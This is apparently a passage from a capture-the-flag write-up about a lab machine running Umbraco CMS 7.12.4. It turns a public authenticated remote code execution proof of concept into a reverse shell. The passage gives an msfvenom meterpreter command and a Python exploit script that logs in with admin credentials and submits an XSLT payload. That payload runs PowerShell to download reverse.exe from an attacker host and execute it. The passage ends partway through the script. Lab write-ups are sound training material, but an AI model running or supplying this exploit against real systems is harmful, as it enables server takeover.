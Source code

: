 We want to use "Umbraco CMS 7.12.4 - (Authenticated) Remote code execution". We
get the script from our local exploitdb. Looking at the POC, it is launching a
`calc.exe` on the server. We try it to see if we get an error.

As there is no error we modifiy it to obtain a reverse shell:
  * we use msfvenom to create a meterpreter: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe >reverse.exe`
  * we run a python simple HTTP server to share the executable
  * we run metasploit multi handler
  * Using `powershell` we download the executable binary and run it

The script is the following:

    :::python
    import requests;

    from bs4 import BeautifulSoup;

    def print_dict(dico):
        print(dico.items());

    print("Start");

    # Execute a calc for the PoC
    payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
    xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
    <msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
    { string cmd = "mkdir /tmp;iwr -uri http://10.10.14.80:8081/reverse.exe -outfile /tmp/reverse.exe;/tmp/reverse.exe"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
    proc.StartInfo.FileName = "powershell.exe"; proc.StartInfo.Arguments = cmd;\
    proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
    proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
    </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
    </xsl:template> </xsl:stylesheet> ';

    login = "admin@htb.local";
    password="baconandcheese";
    host = "http://10.10.10.180";


    s = requests.session()
    url_main =host+"/umbraco/";
    r1 = s.get(url_main);
    print_dict(r1.cookies);


    url_login = host+"/umbraco/backoffice/UmbracoApi/Authentication/PostLogin";
    loginfo = {"username":login,"password":password};
    r2 = s.post(url_login,json=loginfo);


    url_xslt = host+"/umbraco/developer/Xslt/xsltVisualize.aspx";
    r3 = s.get(url_xslt);

    soup = BeautifulSoup(r3.text, 'html.parser');
    VIEWSTATE = soup.find(id="__VIEWSTATE")['value'];
    VIEWSTATEGENERATOR = soup.find(id="__VIEWSTATEGENERATOR")['value'];
    UMBXSRFTOKEN = s.cookies['UMB-XSRF-TOKEN'];
    headers = {'UMB-XSRF-TOKEN':UMBXSRFTOKEN};
    data = {"__EVENTTARGET":"","__EVENTARGUMENT":"","__VIEWSTATE":VIEWSTATE,"__VIEWSTATEGENERATOR":VIEWSTATEGENERATOR,"ctl00$body$xsltSelection":payload,"ctl00$body$contentPicker$ContentIdValue":"","ctl00$body$visualizeDo":"Visualize+XSLT"};

